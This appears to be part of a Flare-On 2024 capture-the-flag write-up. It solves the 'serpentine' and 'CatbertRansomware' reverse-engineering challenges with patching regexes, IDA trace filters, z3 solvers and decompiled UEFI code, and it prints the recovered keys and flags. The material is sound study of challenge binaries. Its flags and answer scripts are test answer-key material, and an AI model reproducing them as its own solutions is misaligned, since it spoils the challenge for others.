[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,true)From_Hex('Auto')XOR(%7B'option':'Hex','string':'0f%200a%200e%2024'%7D,'Standard',false)&input=TkRFZ00yRWdOMkVnTjJJZ00yTWdOMk1nTTJRZ05HRWdOVEFnTkdVZ05XVWdOellnTkRRZ05UVWdOamNnTVRFZ05UQWdOV1VnTmpZZ01UVWdNMkVnTlRVZ00yWWdNVGNnTTJNZ00yUWdOVEVnTVRVZ05qRWdOVFVnTlRrZ05ERWdObVFnTXprZ05HVWdORElnTmpNZ05tSWdOMk1nTkRFZ01qSWdOalVnTmpBZ01HRWdObU1nTmpVZ05qTT0&oeol=CR) (`FLAREON24` -> `0F 0A 0E 24`)

`N0t_3v3n_DPRK_i5_Th15_1337_1n_Web3@flare-on.com`

## 9 - serpentine

> A good career for you would be a sort of cyber Indiana Jones. Imagine a lone figure, a digital explorer, ventures into the depths of the bit forest, a sprawling, tangled expanse of code and data. The air crackles with unseen energy, and the path ahead twists and turns like a serpent's coil. At the heart of this forest lies the serpent's sanctum, a fortress of encrypted secrets. Your mission is to infiltrate the sanctum, navigate its defenses, and retrieve the hidden flag. Sounds way cooler than sitting at your desk typing things nobody cares about into a keyboard.
> 7zip archive password: flare

Trap-based SMC and control flow obfuscation. Requires labor to extract all constraints from tracing. I would like to know whether an automated solution is possible.

References: [RtlInstallFunctionTableCallback function (winnt.h) - Win32 apps](https://learn.microsoft.com/en-us/windows/win32/api/winnt/nf-winnt-rtlinstallfunctiontablecallback); [x64 exception handling](https://learn.microsoft.com/en-us/cpp/build/exception-handling-x64?view=msvc-170#unwind-procedure)

This challenge is solved by firstly patching all re-obfuscation code to `nop`s, then patching all equality checking `cmovnz`s to `cmovz` so that we can get a full trace of all equations. Patching is done with [010 Editor](https://www.sweetscape.com/010editor/).

```plaintext
cmovnz R1, R2
jmp R1
Regex: ([\x40-\x4f])\x0f\x45(.[\x40-\x4f]?\xff.?)
    ->
cmovz R1, R2
jmp R1
Replaced with: $1\x0f\x44$2
```

The following script is used to filter relevant rows from a sea of tracing outputs by IDA.

```python
import re

from tqdm import tqdm

RE_LINE = re.compile(
    r"^[0-9A-F]+**\t**Stack**\[**[0-9A-F]+**\]**:(?:unk_|dword_|[0-9A-F]+)[0-9A-F]{7}**\t**(.+)$"
)
RE_ADDR = re.compile(r"00000001400[0-9A-F]{5}")

OP_TABLES: dict[str, list[int]] = {}

with open("serpentine/tables.py", "rt") as f:
    exec(f.read())

def get_op_table_name(addr: int):
    for name, table in OP_TABLES.items():
        if any((start <= addr < start + 256 for start in table)):
            return name
    return ""

def check_heuristics(line: str):
    POS_NEEDLES = (
        "add",
        "sub",
        "xor",
        "mul",
        "or",
        "and",
        "movzx",
        "=00000000000000",
        "shl",
        "cmov",
        "test",
    )
    NEG_NEEDLES = (
        "jmp",
        "call",
        "ret",
        "hlt",
        "xchg",
        "push",
        "pop",
        "dword ptr",
        "rax, 0",
        ".text",
    )
    POS_KEYWORDS = ("Stack",)
    POS_KEYWORDS_STRONG = ("mul",)
    return any((n in line for n in POS_KEYWORDS_STRONG)) or (
        all((n in line for n in POS_KEYWORDS))
        and any((n in line for n in POS_NEEDLES))
        and not any((n in line for n in NEG_NEEDLES))
    )

lines: list[str] = []
with open("serpentine/serpentine.patched.1.exe.trace.1.txt", "rt") as f:
    for l in tqdm(f):
        if check_heuristics(l):
            match re.match(RE_LINE, l):
                case None:
                    print(l)
                    exit(1)
                    continue
                case m:
                    l = m.group(1).strip()
            match re.search(RE_ADDR, l):
                case None:
                    addr = 0
                case m:
                    addr = int(m.group(0), 16)
            addr_type = get_op_table_name(addr).ljust(6)
            if "cmov" in l:
                lines.append(f"++\t{addr_type}\t{l}")
            elif "or " in l and "xor" not in l:
                lines.append(f"^ \t{addr_type}\t{l}")
            elif "mul"  in l:
                lines.append(f"* \t{addr_type}\t{l}")
            else:
                lines.append(f"  \t{addr_type}\t{l}")

with open("serpentine/filtered.txt", "wt") as f:
    for l in lines:
        f.write(l + "\n")
```

Running said script on an IDA trace will produce output like this:

```asm
...
  	      	mov     cs:dword_6C24D49, eax
  	      	mov     r11, 10ADD7F49h         	R11=000000010ADD7F49
  	      	add     qword ptr [rsp+18h], 35AC399Fh	AF=1
  	      	movzx   rdi, dil                	RDI=0000000000000065
  	      	mov     rax, [r8+0B0h]          	RAX=0000000000000065
  	      	add     r10, 47B805E5h          	R10=0000000000EF7A8C CF=1
* 	      	mul     qword ptr [rsp]         	RAX=000000005E7B593C RDX=0000000000000000 CF=0 PF=1
  	      	movzx   rbx, bl                 	RBX=000000000000003C
  	      	add     r14, 6BC64375h          	R14=00000001400962C0 PF=1 AF=1
  	addc  	add     r14, [r15+90h]          	R14=00000001400621FC AF=0
  	      	movzx   rsi, sil                	RSI=0000000000000000
  	      	shl     rsi, 8                  	ZF=1
  	      	add     [r15+0F0h], rsi         	ZF=0
  	      	add     rbx, 0C212EDDh          	RBX=0000000140095AC0 AF=1
  	      	mov     r11d, [rbx+34h]         	R11=000000000000003C
  	addr  	add     r11, [rbx+0E0h]         	R11=00000001400620FC
  	      	movzx   rbx, bl                 	RBX=0000000000000059
  	      	add     rsi, 2EE276C1h          	RSI=00000001400962C0 AF=1
  	addc  	add     rsi, [r14+90h]          	RSI=000000014004D219 PF=0 AF=0
  	      	movzx   rbp, bpl                	RBP=0000000000000000
  	      	shl     rbp, 10h                	PF=1 ZF=1
  	      	add     [r14+0B0h], rbp         	ZF=0
  	      	add     rbp, 58336C6Bh          	RBP=0000000140095AC0 AF=1
  	      	mov     eax, [r13+34h]          	RAX=0000000000000059
  	addr  	add     rax, [r13+0E0h]         	RAX=000000014004D119
  	      	mov     r14, 0FFh               	R14=00000000000000FF
  	      	shl     r14, 8                  	R14=000000000000FF00 PF=1
  	      	and     rbp, r14                	RBP=000000005E7B00C9
  	      	movzx   r14, r15b               	R14=00000000000000B6
  	      	shl     r14, 8                  	R14=000000000000B600
^ 	      	or      rbp, r14                	RBP=000000005E7BB6C9
  	      	movzx   r15, r15b               	R15=000000000000007B
  	      	add     rbp, 40267844h          	RBP=00000001400962C0 PF=1 AF=1
  	addc  	add     rbp, [r15+0F0h]         	RBP=000000014005F13B PF=0 AF=0
  	      	movzx   rcx, cl                 	RCX=0000000000000001
  	      	shl     rcx, 18h                	RCX=0000000001000000 PF=1
  	      	add     [r15+0B0h], rcx
  	      	add     r14, 31E11989h          	R14=0000000140095AC0 AF=1
  	      	mov     r10d, [rsi+34h]         	R10=000000000000007B
  	addr  	add     r10, [rsi+0E0h]         	R10=000000014005F03B PF=0
  	      	mov     r12b, [r10]             	R12=0000000000000001
  	      	mov     rbx, 0FFh               	RBX=00000000000000FF
  	      	shl     rbx, 10h                	RBX=0000000000FF0000 PF=1
  	      	and     rbp, rbx                	RBP=000000005F00B6C9
  	      	movzx   rbx, r12b               	RBX=0000000000000001
  	      	shl     rbx, 10h                	RBX=0000000000010000
^ 	      	or      rbp, rbx                	RBP=000000005F01B6C9
  	      	movzx   rbp, bpl                	RBP=000000000000005F
  	      	add     r11, 753F2AC9h          	R11=00000001400962C0 AF=1
  	addc  	add     r11, [rdx+0A0h]         	R11=000000014006921F PF=0 AF=0
  	      	movzx   rdi, dil
  	      	shl     rdi, 20h ; ' '          	PF=1 ZF=1
  	      	add     [rdx+0D8h], rdi         	ZF=0
  	      	add     qword ptr [rsp+20h], 26880FA6h	AF=1
  	      	mov     ecx, [r8+34h]           	RCX=000000000000005F
  	addr  	add     rcx, [r8+0B0h]          	RCX=000000014006911F
  	      	mov     r12, 0FFh               	R12=00000000000000FF
  	      	shl     r12, 18h                	R12=00000000FF000000 PF=1
  	      	and     r15, r12                	R15=000000000001B6C9
  	      	movzx   r12, r8b                	R12=00000000000000FC
  	      	shl     r12, 18h                	R12=00000000FC000000
^ 	      	or      r15, r12                	R15=00000000FC01B6C9
  	      	movzx   r13, r13b               	R13=0000000000000000
  	      	add     rsi, 43F75781h          	RSI=00000001400962C0 PF=1 AF=1
  	      	add     rsi, [rbp+0E0h]         	PF=0 AF=0
  	      	movzx   rbx, bl
  	      	shl     rbx, 28h ; '('          	PF=1 ZF=1
  	      	add     [rbp+0A8h], rbx         	ZF=0
  	      	add     rsi, 7C0510D2h          	RSI=0000000140095AC0 AF=1
  	addr  	add     r14, [r8+0E0h]          	R14=00000001400247C0
  	      	mov     rcx, 0FFh               	RCX=00000000000000FF
  	      	shl     rcx, 20h ; ' '          	RCX=000000FF00000000
  	      	and     r13, rcx
  	      	movzx   rcx, r12b               	RCX=0000000000000000
  	      	shl     rcx, 20h ; ' '          	ZF=1
^ 	      	or      r13, rcx                	ZF=0
  	      	movzx   r15, r15b               	R15=0000000000000000
  	      	add     rax, 2E858FBh           	RAX=00000001400962C0 AF=1
  	      	add     rax, [rdi+0F0h]         	PF=0 AF=0
  	      	movzx   r10, r10b
  	      	shl     r10, 38h ; '8'          	PF=1 ZF=1
  	      	add     [rdi+0A8h], r10         	ZF=0
  	      	add     qword ptr [rsp+20h], 10A577B5h	AF=1
  	      	mov     ecx, [r8+34h]           	RCX=0000000000000000
  	addr  	add     rcx, [r8+0B0h]          	RCX=00000001400247C0 PF=1
  	      	mov     rbp, 0FFh               	RBP=00000000000000FF
  	      	shl     rbp, 30h ; '0'          	RBP=00FF000000000000
  	      	and     r15, rbp
  	      	movzx   rbp, r14b               	RBP=0000000000000000
  	      	shl     rbp, 30h ; '0'          	ZF=1
^ 	      	or      r15, rbp                	ZF=0
  	      	add     r14, 16951716h          	R14=000000014089B8E8 PF=1
...
```

... which performs the following calculation with lots of table lookups:

```python
v = var64("e") * const64(0x00EF7A8C)
v += const64(0x9D865D8D)
```

After extracting all these related rows, I use the next script to calculate the coefficients in the equation.

```python
# param.py

import z3
from pwn import *

N_UNKNOWNS = 0
unknowns = []

def var64(v: int):
    assert chr(v) in "abcdefghijklmnopABCDEFGHIJKLMNOP"
    return z3.BitVecVal(v, 64)

def const64(idx: int):
    global N_UNKNOWNS
    global unknowns
    N_UNKNOWNS += 1
    u = z3.BitVec(f"c_{idx}", 64)
    unknowns.append(u)
    return u

solver = z3.Solver()

# TODO: Fill in actual instructions
PARAMS: list[tuple[str | None, tuple[int, int, str, int] | tuple[int]]] = [
    (None, (0x4E, 0x0000000000725059, "xor", 0x000000008A62E475)),
    ("add", (0x42, 0x00000000006DCFE7, "xor", 0x00000000C38E5A99)),
    ("add", (0x62, 0x00000000008F4C44, "xor", 0x000000009281FA24)),
    ("sub", (0x6A, 0x0000000000D2F4CE, "sub", 0xFFFFFFFFB4050F13)),
    ("xor", (0x6E, 0x0000000000E99D3F, "add", 0x00000000BD7B177B)),
    ("add", (0x66, 0x0000000000ADA536, "sub", 0x000000006D0A9056)),
    ("sub", (0x4A, 0x0000000000E0B352, "xor", 0x000000006FD6BA82)),
    ("add", (0x46, 0x00000000008675B6, "add", 0x00000000C93D7C59)),
    ("sub", (0x00000000A92411DB,)),
    ("or", (0x00000000A92411DB,)),
]

v = 0
for i, param in enumerate(PARAMS):
    op1 = param[0]
    match param[1]:
        case (ch, coeff, op2, val):
            pass
            ex = var64(ch) * coeff
            if op1 is None:
                v = ex
            elif op1 == "add":
                v += ex
            elif op1 == "sub":
                v -= ex
            elif op1 == "xor":
                v ^= ex
            elif op1 == "or":
                v |= ex
            elif op1 == "and":
                v &= ex
            else:
                error("Invalid op1")
                exit(1)
            if op2 == "add":
                v += const64(i)
            elif op2 == "sub":
                v -= const64(i)
            elif op2 == "xor":
                v ^= const64(i)
            elif op2 == "or":
                v |= const64(i)
            elif op2 == "and":
                v &= const64(i)
            else:
                error("Invalid op2")
                exit(1)
            solver.add(v == val)
        case (val,):
            if op1 == "add":
                v += const64(i)
            elif op1 == "sub":
                v -= const64(i)
            elif op1 == "xor":
                v ^= const64(i)
            elif op1 == "or":
                v |= const64(i)
            elif op1 == "and":
                v &= const64(i)
            else:
                error("Invalid op1")
                exit(1)
            solver.add(v == val)
        case _:
            error("Invalid param")
            exit(1)

if solver.check() != z3.sat:
    error("Unsat")
    exit(1)

result: list[int] = [0] * N_UNKNOWNS
m = solver.model()
for d in m.decls():
    result[int(d.name()[2:])] = m[d].as_long()  # type: ignore

# for i in range(N_UNKNOWNS):
#    print(f"const64({i}): {hex(result[i])}")

for i, param in enumerate(PARAMS):
    op1 = param[0]
    const = f"const64({hex(result[i])})"
    match param[1]:
        case (ch, coeff, op2, val):
            pass
            ex = f"var64({hex(ch)}) * const64({hex(coeff)})"
            if op1 is None:
                print(f"v = {ex}")
            elif op1 == "add":
                print(f"v += {ex}")
            elif op1 == "sub":
                print(f"v -= {ex}")
            elif op1 == "xor":
                print(f"v ^= {ex}")
            elif op1 == "or":
                print(f"v |= {ex}")
            elif op1 == "and":
                print(f"v &= {ex}")
            else:
                error("Invalid op1")
                exit(1)
            if op2 == "add":
                print(f"v += {const}")
            elif op2 == "sub":
                print(f"v -= {const}")
            elif op2 == "xor":
                print(f"v ^= {const}")
            elif op2 == "or":
                print(f"v |= {const}")
            elif op2 == "and":
                print(f"v &= {const}")
            else:
                error("Invalid op2")
                exit(1)
        case (val,):
            if op1 == "add":
                print(f"v += {const}")
            elif op1 == "sub":
                print(f"v -= {const}")
            elif op1 == "xor":
                print(f"v ^= {const}")
            elif op1 == "or":
                print(f"v |= {const}")
            elif op1 == "and":
                print(f"v &= {const}")
            else:
                error("Invalid op1")
                exit(1)
            solver.add(v == val)
        case _:
            error("Invalid param")
            exit(1)
print("solver.add(v == 0)")
```

Then plug all these into a large solver to produce the flag.

```python
# solve.py

import string

import z3
from pwn import *

INPUT_S = "abcdefghijklmnopABCDEFGHIJKLMNOP"

N_UNKNOWNS = len(INPUT_S)
UNK_WIDTH = 8
ALPHABET = string.ascii_letters + string.digits + string.punctuation

x = [z3.BitVec(f"x_{i}", UNK_WIDTH) for i in range(N_UNKNOWNS)]
bound = [False] * N_UNKNOWNS

def var64(ch: str | int):
    c = chr(ch) if isinstance(ch, int) else ch[0]
    idx = INPUT_S.index(c[0])
    bound[idx] = True
    return z3.Concat(z3.BitVecVal(0, 56), x[idx])

def const64(val: int):
    return z3.BitVecVal(val, 64)

solver = z3.Solver()

# group 1, 3, 4

v = var64("e") * const64(0x00EF7A8C)
v += const64(0x9D865D8D)
v -= var64("I") * const64(0x0045B53C)
v += const64(0x18BAEE57)
v -= var64("a") * const64(0x00E4CF8B)
v -= const64(0x913FBBDE)
v -= var64("i") * const64(0x00F5C990)
v += const64(0x6BFAA656)
v ^= var64("E") * const64(0x00733178)
v ^= const64(0x61E3DB3B)
v ^= var64("A") * const64(0x009A17B8)
v -= const64(0xCA2804B1)
v ^= var64("m") * const64(0x00773850)
v ^= const64(0x5A6F68BE)
v ^= var64("M") * const64(0x00E21D3D)
v ^= const64(0x5C911D23)
v -= const64(0xFFFFFFFF81647A79)
v |= const64(0x00000000)
solver.add(v == 0)

... # Many constraints snipped for brevity; 64 groups in total

v = var64(0x42) * const64(0x87184C)
v -= const64(0x72A15AD8)
v ^= var64(0x4A) * const64(0xF6372E)
v += const64(0x16AD4F89)
v -= var64(0x46) * const64(0xD7355C)
v -= const64(0xBB20FE35)
v ^= var64(0x66) * const64(0x471DC1)
v ^= const64(0x572C95F4)
v -= var64(0x62) * const64(0x8C4D98)
v -= const64(0x94650C74)
v -= var64(0x6E) * const64(0x5CEEA1)
v ^= const64(0xF703DCC1)
v -= var64(0x4E) * const64(0xEB0863)
v += const64(0xAD3BC09D)
v ^= var64(0x6A) * const64(0xB6227F)
v -= const64(0x46AE6A17)
v -= const64(0xFFFFFFFF315E8118)
v |= const64(0x0)
solver.add(v == 0)

if solver.check() != z3.sat:
    error("Unsat")
    exit(1)

result: list[int] = [0] * N_UNKNOWNS
m = solver.model()
for d in m.decls():
    result[int(d.name()[2:])] = m[d].as_long()  # type: ignore

solution = "".join((chr(x) if bound[i] else INPUT_S[i] for i, x in enumerate(result)))
marker = "".join(("^" if bound[i] else " " for i in range(N_UNKNOWNS)))

print(solution)
print(marker)
```


`$$_4lway5_k3ep_mov1ng_and_m0ving@flare-on.com`

## 10 - CatbertRansomware

> A dire situation has arisen, yet again, at FLARE HQ. One of our employees has fallen victim to a ransomware attack, and the culprit is none other than the notorious Catbert, our malevolent HR manager. Catbert has encrypted the employee's disk, leaving behind a cryptic message and a seemingly innocent decryption utility. However, this utility is not as straightforward as it seems. It's deeply embedded within the firmware and requires a keen eye and technical prowess to extract. The employee's most valuable files are at stake, and time is of the essence. Please, help us out one.... last... time.
> 7zip archive password: flare

This handout could be run with QEMU as follows:

```bash
$ qemu-system-x86_64 -L . --bios ./bios.bin ./disk.img
```

We can see that this challenge is based on [tianocore/edk2](https://github.com/tianocore/edk2) UEFI project. Finding modified binaries (e.g. `Shell.exe`) is relatively easy.

The encrypted `.c4tb` (which I guess means "Catbert") contains metadata, encrypted bytes, and a piece of custom VM code to verify if a key is legit. I wrote a [Binary Ninja](https://binary.ninja/) plugin for viewing `.c4tb` files, and it is open sourced at <http://github.com/CSharperMantle/binja_arch_catbert>. The disassembly and graphs work, yet the lifting has some curious glitches: Binja fails to resolve stack pointers even when precursing basic blocks has a balanced stack. Any explanations is welcomed in both said repo and the commenting area below.

UEFI symbol recovery -> VM reverse engineering -> symbolic constraints solving

```c
UINT32 __fastcall func_crc32_mpeg2()
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  p = g_buf_input_char;
  result = 0xFFFFFFFF;
  i = 16;
  do
  {
    v3 = *p++;
    result = LOOKUP_CRC32MPEG2[v3 ^ ((unsigned __int64)result >> 24)] ^ (result << 8);
    --i;
  }
  while ( i );
  return result;
}

int __fastcall handler_decrypt_file(EFI_HANDLE ImageHandle, EFI_SYSTEM_TABLE *SystemTable)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  ...
  // Open, allocate and read file parts: metadata, ciphertext, VM bytecode
  ...
  v17 = (unsigned int *)g_buf_file;
  file_magic = *(_DWORD *)g_buf_file;
  g_file_info->magic = *(_DWORD *)g_buf_file;
  if ( file_magic != 0x42543443 )
  {
    ((void (__fastcall *)(EFI_SIMPLE_TEXT_OUTPUT_PROTOCOL *, __int64))gST->ConOut->SetAttribute)(gST->ConOut, 64i64);
    my_printf(-1, -1, L"Oh, you thought you could just waltz in here and decrypt ANY file, did you?\r\n");
    my_printf(-1, -1, L"Newsflash: Only .c4tb encrypted JPEGs are worthy of my decryption powers.\r\n");
    ((void (__fastcall *)(EFI_SIMPLE_TEXT_OUTPUT_PROTOCOL *, __int64))gST->ConOut->SetAttribute)(gST->ConOut, 71i64);
    goto LABEL_9;
  }
  file_u32_0x4 = v17[1];
  v16->len0 = file_u32_0x4;
  file_u32_0x8 = v17[2];
  v16->off_vm_code = file_u32_0x8;
  v16->len_vm_code = v17[3];
  // More copies...
  ...
  // Insert user input into VM code
  g_file_vm_code[5] = *(_BYTE *)g_buf_input_wchar;
  v29[4] = v28[2];
  v29[0xC] = v28[4];
  v29[0xB] = v28[6];
  v29[0x13] = v28[8];
  v29[0x12] = v28[10];
  v29[0x1A] = v28[12];
  v29[0x19] = v28[14];
  v29[0x21] = v28[16];
  v29[0x20] = v28[18];
  v29[0x28] = v28[20];
  v29[0x27] = v28[22];
  v29[0x2F] = v28[24];
  v29[0x2E] = v28[26];
  v29[0x36] = v28[28];
  v29[0x35] = v28[30];
  func_run_vm();
  if ( !g_vm_state.okay )
  {
LABEL_72:
    sub_31B14();
    goto LABEL_9;
  }
  g_filename_1 = (CHAR16 *)AllocateReservedPool(v30, 0x208ui64);
  if ( !g_filename_1 )
    goto LABEL_74;
  g_buf_input_char = (unsigned __int8 *)AllocateReservedPool(v31, 0x104ui64);
  if ( !g_buf_input_char )
    goto LABEL_74;
  func_input_wchar_2_char();
  StrCpyS(g_filename_1, 0x104ui64, g_filename);
  v32 = StrStr(g_filename_1, L".c4tb");
  if ( v32 )
    *v32 = 0;
  input_hash = func_crc32_mpeg2();
  if ( input_hash == 0x8AE981A5 )
  {
    ZeroPool = AllocateZeroPool(0x100ui64);
    g_buf_0x8ae981a5 = ZeroPool;
    goto LABEL_44;
  }
  if ( input_hash == 0x92918788 )
  {
    ZeroPool = AllocateZeroPool(0x100ui64);
    g_buf_0x92918788 = ZeroPool;
    goto LABEL_44;
  }
  if ( input_hash != 0x80076040 )
  {
LABEL_46:
    sub_31A54();
    v35 = g_file_info;
    func_rc4(
      g_buf_input_char,
      v36,
      (unsigned __int8 *)g_file_info->buf0,
      g_file_info->len0,
      (unsigned __int8 *)g_file_info->buf0);
    buf0 = v35->buf0;
    if ( buf0[6] != 'J' || buf0[7] != 'F' || buf0[8] != 'I' || buf0[9] != 'F' )
    {
      my_printf(-1, -1, L"is that what you think you're doing? Trying to crack something?\r\n");
      my_printf(-1, -1, L"Well, let me tell you, you're wasting your time.\r\n");
      goto LABEL_9;
    }
    len0 = v35->len0;
    v2 = ShellOpenFileByName(g_filename_1, &g_handle_file, 0x8000000000000003ui64, 0i64);
    if ( v2 < 0 )
      return v2;
    v2 = FileFunctionMap.WriteFile(g_handle_file, &len0, g_file_info->buf0);
    if ( v2 < 0 )
      return v2;
    ((void (__fastcall *)(EFI_SIMPLE_TEXT_OUTPUT_PROTOCOL *, __int64))gST->ConOut->SetAttribute)(gST->ConOut, 79i64);
    my_printf(-1, -1, L"0x%x bytes successfully written to %s.\r\n", g_file_info->len0, g_filename_1);
    ((void (__fastcall *)(EFI_SIMPLE_TEXT_OUTPUT_PROTOCOL *, __int64))gST->ConOut->SetAttribute)(gST->ConOut, 71i64);
    v2 = FileFunctionMap.CloseFile(g_handle_file);
    if ( v2 < 0 )
      return v2;
    v2 = FileFunctionMap.DeleteFile(g_file_handle);
    LODWORD(v4) = v2;
    if ( v2 < 0 )
      return v2;
    if ( g_buf_0x8ae981a5 && g_buf_0x92918788 && g_buf_0x80076040 && !byte_E8590 )
    {
      ((void (__fastcall *)(EFI_SIMPLE_TEXT_OUTPUT_PROTOCOL *, __int64))gST->ConOut->SetAttribute)(gST->ConOut, 64i64);
      my_printf(-1, -1, L"Oh, you think you're so smart, huh? Decrypting JPEGs? Big deal.\r\n");
      my_printf(-1, -1, L"As a special favor, I'll let you enjoy the thrill of watching me\r\n");
      my_printf(-1, -1, L"decrypt the UEFI driver. Consider yourself lucky.\r\n");
      ((void (__fastcall *)(EFI_SIMPLE_TEXT_OUTPUT_PROTOCOL *, __int64))gST->ConOut->SetAttribute)(gST->ConOut, 71i64);
      // Decrypt DilbootApp.efi.enc
      ...
    }
    ...
LABEL_22:
    ...
  }
  ...
}
```

The input key for each `.c4tb` file need to satisfy both a VM-based check and a CRC32-MPEG2 digest.

The first meme uses a simple invertible transformation on some locations of input.

```python
# solve_meme1.py

import typing as ty

def rol(x: int, n: int, width: int):
    return ((x << n) | (x >> (width - n))) & ((1 << width) - 1)

def ror(x: int, n: int, width: int):
    return ((x >> n) | (x << (width - n))) & ((1 << width) - 1)

CIPHER = b"Da4ubicle1ifeb0b"

MANGLER: dict[int, ty.Callable[[int], int]] = {
    2: lambda x: rol(x, 4, 8),
    9: lambda x: ror(x, 2, 8),
    0xD: lambda x: rol(x, 7, 8),
    0xF: lambda x: rol(x, 7, 8),
}

plaintext = bytes((MANGLER[i](c) if i in MANGLER else c for i, c in enumerate(CIPHER)))
print(plaintext)

# Da4ubicle1ifeb0b -> DaCubicleLife101
```

The second meme uses an OTP generated by a PRNG to encrypt the content.

```python
# solve_meme2.py
def gen_keystream():
    var_1b = 0x80000000
    var_1c = 0x343FD
    var_1d = 0x269ec3
    var_1e = 0x1337
    i = 0
    while True:
        var_1e = (var_1e * var_1c + var_1d) % var_1b
        yield (var_1e >> ((i % 4) * 8)) & 0xff
        i += 1

CIPHER = b"Y\xa0Mj#\xde\xc0$\xe2d\xb1Y\x07r\\\x7f"

plaintext = bytes(c ^ k for c, k in zip(CIPHER, gen_keystream()))
print(plaintext)

# Y\xa0Mj#\xde\xc0$\xe2d\xb1Y\x07r\\\x7f -> G3tDaJ0bD0neM4te
```

The third meme uses three checksums, the last one of which is a [Fowler–Noll–Vo hash](https://en.wikipedia.org/wiki/Fowler%E2%80%93Noll%E2%80%93Vo_hash_function). Despite its cryptographic weaknesses, we need a constrained solution rather than a collision, which rendered directly solving this FNV highly infeasible. Luckily, the CRC32-MPEG2 is still a applicable constraint. Identifying its polynomial and finding a non-lookup implementation [took](https://community.st.com/t5/stm32-mcus-products/how-do-i-resolve-the-different-hardware-crc-calculation-when/td-p/419059) [some](https://www.itu.int/rec/T-REC-H.222.0) [time](https://reveng.sourceforge.io/crc-catalogue/all.htm#crc.cat.crc-32-mpeg-2).

```python
# solve_meme3.py

import typing as ty

import z3
import string

def crc32mpeg2(data: ty.Iterable[z3.BitVecRef]):
    assert all(di.size() == 8 for di in data)

    POLY = 0x04C11DB7
    crc = z3.BitVecVal(0xFFFFFFFF, 32)
    for byte in data:
        crc = crc ^ (z3.Concat(z3.BitVecVal(0, 24), byte) << 24)
        for _ in range(8):
            msb = z3.Extract(31, 31, crc)
            crc = crc << 1
            crc = z3.If(
                msb == 1,
                crc ^ POLY,
                crc,
            )
            crc = crc & 0xFFFFFFFF
    return crc

N_UNKNOWNS = 16
UNK_WIDTH = 8

x = [z3.BitVec(f"x_{i}", UNK_WIDTH) for i in range(N_UNKNOWNS)]

solver = z3.Solver()

var_13 = 0x1505
var_1b = 0
var_1e = 0xFFFF
var_1d = 0xFFFF
var_1e = (var_1e << 0x10) | var_1d
while var_1b < 4:
    var_1c = z3.Concat(z3.BitVecVal(0, 56), x[var_1b])
    var_1d = var_13
    var_13 = (var_13 << 5) + var_1d + var_1c
    var_1b += 1
var_13 &= var_1e
solver.add(var_13 == 0x7C8DF4CB)

var_15 = z3.BitVecVal(0, 32)
while var_1b < 8:
    var_1c = z3.Concat(z3.BitVecVal(0, 56), x[var_1b])
    var_15 = z3.RotateRight(var_15, 0xD)
    var_15 += z3.Extract(31, 0, var_1c)
    var_1b += 1
var_15 &= var_1e
solver.add(var_15 == 0x8B681D82)

var_11 = 1
var_12 = var_17 = var_1b = 0
while var_1b < 8:
    var_1c = z3.Concat(z3.BitVecVal(0, 56), x[8 + var_1b])
    var_11 = (var_11 + var_1c) % 0xFFF1
    var_12 = (var_12 + var_11) % 0xFFF1
    var_1b += 1
var_17 = z3.Concat(z3.Extract(15, 0, var_12), z3.Extract(15, 0, var_11))
var_17 &= var_1e
solver.add(var_17 == 0x0F910374)

# FNV hash; do not try to solve it ;)
# var_a = 0x193
# var_b = 0x100
# var_c = (var_b << 0x10) | var_a
# var_d = 0x9DC5
# var_e = 0x811C
# var_f = (var_e << 0x10) | var_d
# var_10 = 0x1 << 0x20
# var_19 = var_f
# var_1b = 0
# 
# while var_1b < 0x10:
#     var_1c = z3.Concat(z3.BitVecVal(0, 56), x[var_1b])
#     var_1c = var_1c & 0xFF
#     var_19 = (var_19 * var_c) & (var_10 - 1)
#     var_19 = var_19 ^ var_1c
#     var_1b += 1
# var_19 &= var_1e
# solver.add(var_19 == 0x31F009D2)

solver.add(crc32mpeg2(x) == 0x80076040)

for xi in x:
    ex = z3.BoolVal(False)
    for ch in string.ascii_letters + string.digits:
        ex = z3.Or(ex, (xi == z3.BitVecVal(ord(ch), 8)))
    solver.add(ex == True)

print(solver)

while True:
    assert solver.check() == z3.sat
    result: list[ty.Any] = [0] * N_UNKNOWNS
    m = solver.model()
    for d in m.decls():
        result[int(d.name()[2:])] = m[d].as_long()  # type: ignore
    if any((chr(c) not in string.digits + string.ascii_letters for c in result)):
        print(f"Ignored: {bytes(result)}")
        ex = z3.BoolVal(True)
        for xi, c in zip(x, result):
            ex = z3.And(xi == c)
        solver.add(z3.Not(ex))
    else:
        print(bytes(result))
        break

# b"VerYDumBpassword"
```

Afterwards, the journey onwards was already paved properly.





`th3_ro4d_t0_succ3ss_1s_alw4ys_und3r_c0nstructi0n@flare-on.com`
